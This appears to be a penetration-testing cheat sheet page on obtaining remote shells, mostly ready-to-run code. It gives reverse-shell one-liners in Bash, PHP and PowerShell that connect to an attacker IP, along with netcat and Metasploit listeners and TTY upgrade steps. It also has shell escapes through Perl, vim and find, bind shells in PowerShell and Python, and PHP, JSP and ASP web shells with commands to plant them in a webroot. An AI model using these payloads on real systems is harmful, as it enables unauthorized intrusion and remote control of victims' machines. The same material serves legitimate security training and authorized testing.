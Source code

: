 ```yaml
---
description: >-
  This is a collection of few useful scripts for creating reverse, bind and web
  shells.
---
```


# Setting up Shells

## Reverse Shells:

### Preparing the shell script:

#### Linux target:

{% tabs %}
{% tab title="Bash" %}
```bash
$ bash -c 'bash -i >& /dev/tcp/1.1.1.1/PORT 0>&1'
# OR 
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENEING PORT> >/tmp/f
```
{% endtab %}

{% tab title="PHP" %}
```php
# To be saved in a .php file.
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 <LISTENEING PORT> >/tmp/f"); ?>
```
{% endtab %}
{% endtabs %}

Other resources online will be helpful in other cases if we need another programming language to execute the script/code not only bash or PHP or even if the payloads above don't work.

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools" %}

{% embed url="https://www.revshells.com/" %}

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

#### Windows Target:

```powershell
target-host> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',PORT);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Setting up a listener on our attacking machine:

#### Using netcat

```bash
attacking-machine$ nc -lvnp 1234
   -l Listen mode.
   -v Verbose mode.
   -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
   -p 1234 Port number netcat is listening on.
```

#### Using metasploit

```bash
msf6 > use multi/handler
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST 10.10.14.5
msf6 exploit(multi/handler) > set LPORT 1337
msf6 exploit(multi/handler) > run
```

#### Results of the injection:

```bash
attacker@attacking-machine$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.10.10] 41572

victim@target-host> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

{% hint style="success" %}
<mark style="color:green;">We successfully got a connection back now it's time to make it more stable and efficient.</mark>
{% endhint %}

### Interactive Shells

In order to upgrade our shell to a fully TTY let's follow these steps:

#### Full TTY

```bash
victim@target$ python3 -c 'import pty; pty.spawn("/bin/bash")'
victim@target-host$ ^Z
attacker@attacking-machine$ stty raw -echo && fg
[Enter]
[Enter]
victim@target-host$
# Terminal size :
victim@target-host$ export TERM=xterm-256color
victim@target-host$ stty rows 67 columns 318


Raw mode: This means that characters are delivered to the application as soon as 
they are typed, without any line buffering or special interpretation (such as Ctrl+C for interrupt).
-echo: By turning off echoing, characters typed by the user won't be displayed on the screen.
```

{% hint style="success" %}
<mark style="color:green;">Now we can use the full terminal features.</mark>
{% endhint %}

{% hint style="warning" %}
Intuitively, since we're executing commands on a target machine, all of our work highly and directly  depends on the permissions of the files/binaries we're aiming to execute. So?

sudo -l your way in in easy boxes :smile:
{% endhint %}

#### Bash

```bash
victim@target$/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

#### Perl

```bash
victim@target$perl —e 'exec "/bin/sh";'

#To be run inside of a perl script
victim@target$perl: exec "/bin/sh"; 
```

#### Ruby

```bash
victim@target$ruby: exec "/bin/sh"
```

#### Lua

```bash
victim@target$lua: os.execute('/bin/sh')
```

#### Find

```bash
victim@target$find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
#Example:
find . -exec /bin/sh \; -quit
```

#### Vim

```bash
victim@target$vim -c ':!/bin/sh'
```

```bash
victim@target$vim
:set shell=/bin/sh
:shell
```

## Bind shells:

### Listener on the target machine:

#### Linux Target:

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

#### Windows target:

{% tabs %}
{% tab title="PowerShell" %}
```powershell
atrget-host> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endtab %}

{% tab title="Python" %}
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endtab %}
{% endtabs %}

### Connecting to the target:

```bash
$ nc 10.10.10.10 1234
# Successful connection a shell is now open:
victim@target-host> id # Our command, since this is a windows target we should inject a cmdlet
uid=33(www-data) gid=33(www-data) groups=33(www-data) # server response
```

{% hint style="success" %}
We <mark style="color:green;">successfully</mark> got a remote shell on the target machine. If it isn't an unstable and "featureless" terminal, we can upgrade to a full TTY as in the [Reverse shells paragraph](setting-up-shells.md#id-1.-reverse-shells).
{% endhint %}

## Web Shells

For more Web Shell techniques and scripts, have a look at [this](setting-up-shells.md#web-shells).

### Preparing the file

{% tabs %}
{% tab title="PHP" %}
```php
<?php system($_REQUEST["cmd"]); ?>
```
{% endtab %}

{% tab title="Java" %}
```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endtab %}

{% tab title="ASP" %}
```aspnet
<% eval request("cmd") %>
```
{% endtab %}
{% endtabs %}

### Injecting to the webroot

<table><thead><tr><th>Web Server</th><th align="center">Default Webroot</th><th data-hidden align="center"></th></tr></thead><tbody><tr><td>Apache</td><td align="center">/var/www/html/</td><td align="center"></td></tr><tr><td>Nginx</td><td align="center">/usr/local/nginx/html/</td><td align="center"></td></tr><tr><td>IIS</td><td align="center">c:\inetpub\wwwroot\</td><td align="center"></td></tr><tr><td>XAMPP</td><td align="center">C:\xampp\htdocs\</td><td align="center"></td></tr></tbody></table>

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a <mark style="color:red;">**Linux host running Apache**</mark>, we can write a **PHP** shell with the following command:

```bash
$ echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Execution

1. Visit the shell.php page on the compromised website, and use `?cmd=id` to execute the `id` command:\
   `http://SERVER_IP:PORT/shell.php?cmd=id`\
   We'll get the result of the `id` command on the web page!&#x20;
2. Or Use `curl` command:`$ curl http://SERVER_IP:PORT/shell.php?cmd=id`

